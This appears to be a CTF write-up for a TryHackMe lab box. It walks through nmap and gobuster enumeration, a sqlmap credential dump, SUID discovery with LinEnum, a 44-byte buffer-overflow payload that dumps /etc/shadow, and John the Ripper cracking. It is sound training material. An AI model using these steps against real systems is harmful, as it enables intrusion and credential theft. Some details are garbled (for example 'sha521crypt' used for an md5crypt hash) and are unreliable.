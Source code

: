 # The Code Caper - Write-Up
This write-up may be intended only for those who already finished this box. However, you can have a quick look at it if you're totally lost.

This box can be found at (login required) : https://tryhackme.com/room/thecodcaper

## I - Host enumeration
For this part, I'm using this command : 
```bash
nmap -p 1-1000 -sV -sS <ip>
```

-p 1-1000 => Scan only the 1000 first ports

-sV => Get the services' version (as we're blind for now, I expected to find a vulnerable service with a CVE)

-sS => Perform a SYN-STEALTH scan

Here is the output of the scan : 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-08 18:40 CEST
Nmap scan report for 10.10.212.142
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.34 seconds

```

From this output, we can have all the informmation needed to answer the three following questions :

### Question 1
We have 2 ports opened on this machine : 22 & 80

### Question 2
The webpage's (http://<ip>/index.html) title is "Apache2 Ubuntu Default Page: It works"

### Question 3
The SSH version is OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

## II - Web Enumeration
For this part, I used gobuster as suggested as long as dirb doesn't handle files but only directories.

```
gobuster dir -x php,txt,html --wordlist /usr/share/wordlists/dirb/big.txt --url <ip>
```

Please note that the path I'm using here only works for the Kali distro. You may need to download it manually if your distro doesn't come with it natively.

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.212.142
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html                                                                                                                                                                                                           
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/04/08 18:48:50 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/.htaccess (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/administrator.php (Status: 200)
```

I stopped the script as soon as I saw the administrator.php file : I knew it was the 'important file' of the server.

## III - Web Exploitation
As I knew their won't be many records in the database, I didn't use the -all sub-flag.

My exploiting command was tho : 

```bash
sqlmap -u <ip>/administrator.php --forms --dump
```

Then we have the 2 credentials that appears... magically :p.

## IV - Command Execution
Firstly, I want to say a big thanks to Psyrkoz#0405 & MuirlandOracle#2721 who debugged me. In fact, This part was the most costful in time on the whole box.

At a glance, I think everyone would use this command : 

```bash
find /* -user pingu
```

But We have many other users and here www-data is our candidate ! 

```bash
find /* -user www-data
```
is returning us 
```bash
 /var/hidden/pass 
 ```
 on its last line, which clearly shows us the way to go !

## V - LinEnum
To 'inject' LinEdum into the system, I ran into a rough and raw solution (that I don't recommend even if I used it) : Copy/Paste the content of [linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) through a SSH session (now we have the SSH password of Pingu, let's exploit it !).

Then I ran this command : 

```bash
chmod +x ./linenum.sh
./linenum.sh | grep SUID -A30
```
And as a part of the output, we find this : 

```bash
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
```

As we can see, the first line looks pretty... unusual and it is : It's the answer of this part !

## VI - Binary-Exploitation
I choosed to pass through the manual version of this part so I'll not cover the python part. In fact, the explanation is alreadyb a write-up to it.

After playing a bit with gdb, it looks like the size of our payload has to be 44 chars. Even if it's said, I really encourage you to (re)discover it by yourself.

Then, to access our shell function, I've just pasted the python command they give us :

```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

Which give us an output like this : 

```
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
```

## VII - Password Cracking
I used John The Ripper (as I get used to it) and the command looks something like this : 

```
john --format=sha521crypt -w /usr/share/wordlists/rockyou.txt papa.hash
```
And there you are : Root password is owned !

## VIII - Conclusion

I found this box pretty easy even if I stuck on the command execution part.
By the way, I you found any error or have any improvment to share with this write-up, I'm waiting for your PRs :p

